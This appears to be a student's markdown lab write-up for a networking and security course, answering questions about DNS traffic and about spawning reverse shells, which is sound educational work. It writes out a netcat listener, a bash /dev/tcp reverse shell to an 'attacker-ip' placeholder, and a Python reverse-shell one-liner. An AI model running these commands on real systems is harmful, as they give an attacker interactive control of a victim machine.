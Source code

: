 # Shell stuff

there were 2 dns packets, one query and one response.
A dns request has just been performed. This allows us to retrieve IP addresses associated with domain names.
The protocol is DNS and over UDP as this is faster.
The authoritative server for sfu.ca responds to the local resolver which we then see with dig.

![alt text](<Screenshot 2025-01-09 at 2.14.15 PM.png>)

![alt text](<Screenshot 2025-01-09 at 2.14.25 PM.png>)

# 2.2.3

● Which command should you run first? Why?
The command to run first is nc -nlvp 9090. This is because you want to set up the listener first for the shell to connect back to the attacker.

● Show a screenshot from the victim machine when you attempt to spawn a reverse shell using the wrong order.

![alt text](<Screenshot 2025-01-09 at 9.09.44 PM.png>)

● Explain how these two commands work.

nc -lvnp 9090 will make a netcat listener on port 9090 and providing verbose output and avoid dns to resolve hostnames ot improve speed.

The /bin/bash -i >& /dev/tcp/attacker-ip/9090 0<&1 2>&1
This command will open a reverse shell on the victim machine which will connect to the attacker machine on port 9090. 
/bin/bash -i will start a bash instance in interactive mode.
Then the output of the shell is redirected to a file that allows direct communication with a remote host through TCP. Then standard output is redirected to standard input, allowing attacker to send input and also standard error is redirected to standard out so both are sent to attacker.

● Take a proper screenshot showing that you successfully executed a reverse shell.

![alt text](<Screenshot 2025-01-09 at 9.11.19 PM.png>)

● Are the transmitted packets on the wire encrypted? Prove your answer with proper screenshots (Hint: can you use Wireshark?)
They are not encrypted as I can see the information sent in clear text.

![alt text](<Screenshot 2025-01-09 at 9.53.56 PM.png>)

● Suggest another method to run a reverse shell (with sufficient explanation), and show proper screenshots of running a reverse shell using this method.
Another method is to use a python script.

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IPADDRESS",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

![alt text](<Screenshot 2025-01-09 at 10.34.04 PM.png>)

